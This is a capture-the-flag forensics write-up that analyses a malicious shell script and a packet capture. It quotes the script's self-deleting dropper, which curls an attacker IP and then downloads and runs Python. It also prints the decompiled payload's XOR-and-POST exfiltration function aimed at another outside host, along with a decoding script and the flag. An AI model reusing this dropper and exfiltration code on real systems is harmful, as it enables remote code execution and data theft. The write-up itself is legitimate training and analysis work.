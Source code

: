 
# malware/sneaky-script (forensics/rev)

Author: captainGeech

## Description

```
We recovered a malicious script from a victim environment. Can you figure out what it did, and if any sensitive information was exfiltrated? We were able to export some PCAP data from their environment as well.
```

Downloads: `files.zip`

## Analysis

`files.zip` contains a shell script and a pcap file:

```
$ unzip files.zip
Archive:  files.zip
  inflating: evidence.pcapng
  inflating: mal.sh
```

`mal.sh` is small but nasty. If you were to run it, the first line removes itself:

```sh
rm -f "${BASH_SOURCE[0]}"
```

then checks if `curl` and `python3` are in `$PATH`:

```sh
which python3 >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi
```

grabs your mac address:

```sh
mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')
```

makes a GET request to a system controlled by the attacker, which sends your mac address and downloads the response to `/tmp/.cacheimg`:

```sh
curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg
```

and that response is runnable python code, because `mal.sh` executes it and then immediately deletes it:

```sh
python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```

We need to find out what was downloaded to `/tmp/.cacheimg`, so open `evidence.pcapng` in wireshark and look for HTTP requests:

![](wireshark_http.png)

I extracted `cacheimg.b64` from the GET response, and `upload.b64` from the POST request.

```
$ cat cacheimg.b64 | base64 -d > cacheimg
$ file cacheimg
cacheimg: python 3.6 byte-compiled
```

It's python bytecode, which we can decode with `uncompyle6`:

```
$ mv cacheimg cacheimg.pyc
$ uncompyle6 cacheimg.pyc > cacheimg.py
```

`cacheimg.py` exfiltrates a bunch of data from the system and sends it to the attacker. This is the important part for learning how to decode the upload:

```python3
def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()
```

It takes a json dump, xor's the json text with the key in `k`, base64 encodes it, and then sends the base64 as data through the POST request.

## Solution

We just have to reverse what `cacheimg.py` does: decode the base64, xor with the same key, and print the resulting json.

```python3
#!/usr/bin/env python3
import base64
f = open(f"upload.b64", 'r')
b64in = f.readlines()
p = base64.b64decode(b64in[0])
k = b'8675309'
d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
print(d.decode())
```

```
$ ./decode_upload.py > upload.json
$ cat upload.json | jq . | grep 'dam{'
	    "FLAG": "dam{oh_n0_a1l_muh_k3y5_are_g0n3}",
```

The flag is:

```
dam{oh_n0_a1l_muh_k3y5_are_g0n3}
```

